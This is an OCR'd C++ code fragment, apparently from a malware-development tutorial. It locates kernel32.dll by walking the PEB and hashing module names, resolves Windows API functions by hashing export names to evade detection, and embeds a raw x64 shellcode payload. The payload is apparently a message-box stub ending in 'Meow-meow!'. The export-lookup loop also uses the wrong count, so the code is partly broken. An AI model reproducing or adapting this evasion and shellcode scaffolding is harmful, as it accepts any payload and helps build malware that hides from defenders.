 ```cpp

  auto mdllist = *(INT_PTR*)(peb + modList);
  auto mlink = *(INT_PTR*)(mdllist + modListFlink);
  auto krnbase = *(INT_PTR*)(mlink + kernelBaseAddr);
  auto mdl = (LDR_MODULE*)mlink;
  do {
    mdl = (LDR_MODULE*)mdl->e[0].Flink;
    if (mdl->base != nullptr) {
      if (calcMyHashBase(mdl) == myHash) { // kernel32.dll hash
        break;
      }
    }
  } while (mlink != (INT_PTR)mdl);

  kernel32 = (HMODULE)mdl->base;
  return kernel32;
}

static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)((LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + img_nt_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
  PDWORD fAddr = (PDWORD)((LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)((LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)((LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
      printf("successfully found! %s - %d\n", pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}

unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";
```